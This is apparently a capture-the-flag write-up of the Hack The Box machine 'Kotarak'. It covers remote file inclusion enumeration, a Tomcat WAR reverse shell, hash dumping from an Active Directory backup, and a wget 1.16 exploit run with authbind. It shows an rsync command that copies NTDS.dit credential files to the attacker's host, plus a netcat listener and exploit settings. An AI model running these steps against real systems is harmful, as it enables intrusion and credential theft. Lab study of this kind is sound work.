# Kotarak

## Overview

This was a relatively hard box that involved a lot of enumeration at each part of the box that we reached. There was internal enumeration via RFI and privilege "escalation" into an LXC container that was hosted on the victim machine. "Escaping" into this container was quite tricky but in the process I learned about an awesome binary called "autobind" which a) I couldn't believe I hadn't heard of, and b) I'll now be aware of. Please read on for the gory details!

## Information Gathering

```shell
# Nmap 7.80 scan initiated Mon Sep  6 07:28:04 2021 as: nmap -vvv -p 22,8080,8009,60000 -sS -sV -sC -oN 10.10.10.55.kotarak.nmap.txt 10.10.10.55
Nmap scan report for 10.10.10.55
Host is up, received echo-reply ttl 63 (0.078s latency).
Scanned at 2021-09-06 07:28:04 PDT for 53s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDfAOLS+7h/C5JtTGQ7mr9dM70qpnhrk8tFSZFncNSMFyfw3JTg16I2KddMFRr3a/+qv+aAfF1VxyUuJl+tXlgvjgH3pRG/mDCl90U6zhz/WVqPaeu8TIu/1ph+mUZHyss/bCVrt5mnbb1nG/AeDnX/+IiUINIdkgMB6aIOtC+B+zKV/aIrk84HgV4IwfC03a2R7FRPwVzjCv97jhWjvqBEYt4UudazAmkBjgEC9xlJ9r8MjV/DrJ6M66rjCTeuLmiB3a/qz+CbC4k/uey2b5D0p5nxMGkINjgL8X1t8BbGj1qOAS+HWWxQETuwYNVpTLeNuy1bev4kd2BZyewut/p
|   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEvZEilkawbySka+4LZlqha3pjcW2T4wq8WM1cwg/DscLCxypOIh2bRkMitpUOz1kMftIZSGNdmERXvi0znPWFI=
|   256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID8PURIGd2/vCi9d91JK1f8wlyKrIPLcBBVVFsP8YXQ3
8009/tcp  open  ajp13   syn-ack ttl 63 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    syn-ack ttl 63 Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
60000/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         Kotarak Web Hosting        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  6 07:28:57 2021 -- 1 IP address (1 host up) scanned in 52.86 seconds
```
**Rustscan/nmap Output**

A quick port scan returns `22`, `8009`, `8080`, and `60000`. The only port with anything really interesting on it is `60000` so let's drill into it.

### Port 60000

There's webpage claiming to offer anonymous web browsing but we can't seem to do anything useful with command injection or sql injection. We also tried a bunch of fuzzing for LFI but only get cheeky `try harder` responses.



Eventually we figured out that the website is vulnerable to RFI by seeing if it would reach out and load a simple `python -m http.server` on our attacker machine -- and it did!



Now that we know we have some RFI let's use that to enumerate things we can't see on the localhost from the outside using `wfuzz` (h/t @RitcheS):



Using the RFI we found earlier we can see what's on each of those ports. Most of them have nothing terribly interesting except `320` and `888`.

### Port 320

We honestly didn't look here because we started enumeration at 888 and kept going down that path.



### Port 888

Visiting port 888 gives us a directory listing with some interesting sounds files, mainly `backup`. Let's see if we can continue to abuse RFI to see it's contents:









### Port 8080

Let's go ahead and skip right around to that Apache Tomcat Manager we found earlier now that we've got some credentials.



Let's use `msfvenom` to generate a malicios java .war file to upload for a reverse shell.



Let's upload the malicious payload and it for a shell.







Woot, we've got a shell as `tomcat` and we can look around the box further.

## Privilege Escalation

Sitting in `tomcat`'s home directory in `to_archive/pentest_data` we find a backup of the Windows Active Directory from presumably _something_ on the network. This is juicy and we can possibly extract user credentials from it.

I needed a way to transer the files over (~40MB in total) and `rsync` seemed to fit the bill.

I setup `/etc/rsyncd.conf` and then setup an `rsync` listener daemon on my attacker machine: `sudo rsync --daemon`.

The I used rsync on the victim machine to transfer the files back to my attack vm:

```shell
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ rsync -raAv --progress=info2 $PWD rsync://10.10.14.4:32001/files
sending incremental file list

pentest_data/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit      
     16,793,600 100%    2.20MB/s    0:00:07 (xfr#1, to-chk=1/3)
pentest_data/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
     12,189,696 100%    5.18MB/s    0:00:02 (xfr#2, to-chk=0/3)

sent 28,990,695 bytes  received 168 bytes  2,761,034.57 bytes/sec
```

Now that we have the backup we can use `impacket-secretsdump` to dump the hashes:



So we can crack them with `hashcat`:



Great, now we have a presumtive password for the `atanas` user.

```shell
tomcat@kotarak-dmz:/home/tomcat$ su atanas
Password:
atanas@kotarak-dmz:~$ ls -lah                                                        
total 36K           
drwxr-xr-x 4 atanas atanas 4.0K Aug 29  2017 .
drwxr-xr-x 4 root   root   4.0K Jul 21  2017 ..
-rw------- 1 atanas atanas   38 Jan 18  2018 .bash_history
-rw-r--r-- 1 atanas atanas  220 Jul  9  2017 .bash_logout
-rw-r--r-- 1 atanas atanas 3.7K Jul  9  2017 .bashrc
drwx------ 2 atanas atanas 4.0K Jul 21  2017 .cache
drwxrwxr-x 2 atanas atanas 4.0K Jul 21  2017 .nano
-rw-r--r-- 1 atanas atanas  655 Jul  9  2017 .profile
-rw-r--r-- 1 atanas atanas    0 Jul 11  2017 .sudo_as_admin_successful
-rw-rw---- 1 atanas atanas   33 Jul 19  2017 user.txt
```

Just by happenstance I looked at `.bash_history` and it was actually useful!

```shell
atanas@kotarak-dmz:~$ cat .bash_history
history           
exit          
groups          
debugfs /dev/sda1
```

Unfortunately the example here drops us into the /boot partition and is not particularly useful. Instead let's drop into the root partition. We can find it easily by typing `mount`.





Even after mounting the root file system it seems our flag is on another castle!

## Further Enumeration

We need to enumerate further. So let's explorer the new files available in `root`'s home directory.

There's one file in particular, `app.log`, which seems to hint a something with `wget v1.16`.



## Final Privilege Escalation

We can see that a "remote machine" (10.0.3.133) (an LXC container running on the host machine) is running a wget against the host machine for a file that doesn't seem to be here. We actually don't even see a web server or anything listening on port 80: `nc 127.0.0.1 80`.

Let's search around for some CVE's to try:



This CVE looks really promising but we ran into a snag early on. The wget command seems to be asking for a server on port 80 but we're not a privileged user and port 80 is a privileged port so we can't launch a webserver.

After a lot of googling, we turned up a command I've actually never heard of before: `authbind`. This magically allows us to bind to a prvileged port as a non-privileged user. `authbind` requires that the system administrator has done some configuration beforehand but thankfully we can see that our sysadmin was very helpful:



From here it is simply a matter of configuring the PoC script properly and listening on ports 21 and 80 for a connection from the "remote" machine.

```text
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.0.3.1'
FTP_PORT = 21
```

This sets up the webserver to listen on all interfaces tells the script where our FTP server is located for the 1st stage of the callback. One last thing to configure in the exploit PoC is the command to run when we acheieve RCE. For this, I put a reverse shell that calls back to the "host" machine.

We also need an FTP server and the host machine already has pyftpdlib installed:

```shell
authbind python -m pyftpdlib -p21 -w & >/dev/null
authbind python wget_poc.py & >/dev/null
nc -lvp 32000
```





Why, hello there root shell! Gimme flag:


